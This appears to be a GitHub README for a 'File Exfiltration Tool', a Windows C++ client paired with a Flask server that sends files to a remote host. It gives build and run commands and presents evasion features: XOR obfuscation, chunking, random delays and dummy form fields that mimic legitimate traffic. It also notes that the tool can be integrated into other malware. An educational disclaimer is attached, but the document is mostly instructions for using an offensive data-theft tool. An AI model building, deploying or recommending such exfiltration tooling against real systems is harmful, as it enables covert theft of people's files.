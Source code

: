 # File Exfiltration Tool

## Overview
This project is to demonstrate a data exfiltration feature written in C++ with a Python-based server for a penetration testing engagement. This tool can also be intergrated into other malware funcitonalities. The tool allows you to transfer files from a client machine to a remote server over HTTP, with options for chunking, delays, and type-specific processing. The tool supports various file types (e.g., `.txt`, `.png`, `.docx`, `.pdf`), with image files transferred without encryption for direct usability, while other types are XOR-encrypted for basic obfuscation.

### Features:
- File type detection and processing (e.g., no encryption for images).
- Optional chunking to split large files into smaller pieces.
- Optional random delays between chunks for stealth.
- Base64 encoding for HTTP transmission.
- Dummy form fields to mimic legitimate traffic.
- Simple Python Flask server to receive and reassemble files.

> **Disclaimer:** This tool is for educational purposes only. Unauthorized use for malicious purposes is illegal and unethical.

## Prerequisites

### Client (C++)
- **Operating System:** Windows (uses WinHTTP API).
- **Compiler:** MSVC (e.g., `cl` via Visual Studio) or MinGW (e.g., `g++`).
- **Libraries:** WinHTTP (included with Windows).

### Server (Python)
- **Operating System:** Any (tested on Windows/Linux).
- **Python:** 3.6+.
- **Dependencies:** Flask (`pip install flask`).
- **Network:** Server must be reachable on port 80 (configurable).

## Setup

### Client

#### Clone the Repository:
```bash
git clone https://github.com/yourusername/file-exfiltration-tool.git
cd file-exfiltration-tool
```

#### Compile the C++ Code:

Using MSVC:
```bash
cl client.cpp /link winhttp.lib
```
Using MinGW:
```bash
g++ client.cpp -o client.exe -lwinhttp
```
**Output:** `client.exe`.

### Server

#### Install Dependencies:
```bash
pip install flask
```

#### Run the Server:
1. Save the Python script as `server.py`.
2. Start it on the target machine (e.g., `192.168.2.214`):
   ```bash
   python server.py
   ```
3. Ensure port `80` is open and the server is reachable.

## Usage

### Client
Run the compiled executable with the following syntax:
```bash
client.exe <file_path> [-c] [-d]
```
- `<file_path>`: Path to the file to exfiltrate (e.g., `image.png`, `doc.docx`).
- `-c`: Enable chunking (splits file into 1024-byte pieces).
- `-d`: Enable random delays (1–5 seconds between chunks, requires `-c`).

#### Examples:
Transfer a PNG file as a single piece:
```bash
client.exe image.png
```
Transfer a text file in chunks with delays:
```bash
client.exe notes.txt -c -d
```

**Output:**
- Logs bytes read, sent, and server response status.
- Success message: `"Data sent successfully to 192.168.2.214."`

### Server
- The server listens on `0.0.0.0:80` and saves received files as `exfiltrated_data.<ext>` (e.g., `exfiltrated_data.png`).
- Logs chunk reception and final file size.

#### Example Output:
```
Received chunk 1 of 3, size: 1368 bytes
Received chunk 2 of 3, size: 1368 bytes
Received chunk 3 of 3, size: 500 bytes
File fully received and saved as exfiltrated_data.png, size: 3236 bytes
```

## File Type Handling
- **Images** (`.png`, `.jpg`, `.jpeg`, `.bmp`): Transferred unencrypted.
- **Text** (`.txt`), **Office** (`.docx`, `.xlsx`), **PDF** (`.pdf`): XOR-encrypted with key `"mysecretkey"`.
- **Other Types**: Default to XOR encryption, saved with `.bin` extension if no extension is detected.

## Notes
- **Server IP:** Hardcoded to `192.168.2.214:80`. Modify `server_host` and `server_path` in `client.cpp` for a different target.
- **Chunk Size:** Fixed at `1024` bytes when chunking is enabled. Adjust `chunk_size` in `client.cpp` as needed.
- **Security:** XOR encryption is basic and not secure for real-world use; consider stronger methods for production.

## Troubleshooting
- **Empty Output File:** Check client/server logs for size mismatches or errors (e.g., `"WinHttpSendRequest failed: 12029"` = server unreachable).
- **Network Issues:** Ensure the server is running and reachable (`ping 192.168.2.214`, `telnet 192.168.2.214 80`).
- **Corrupted Images:** Verify original file integrity; test without chunking (`client.exe image.png`).

## Contributing
Feel free to fork this repository and submit pull requests with improvements (e.g., stronger encryption, more file type processors, configuration options).

## License
This project is licensed under the MIT License. See the `LICENSE` file for details.
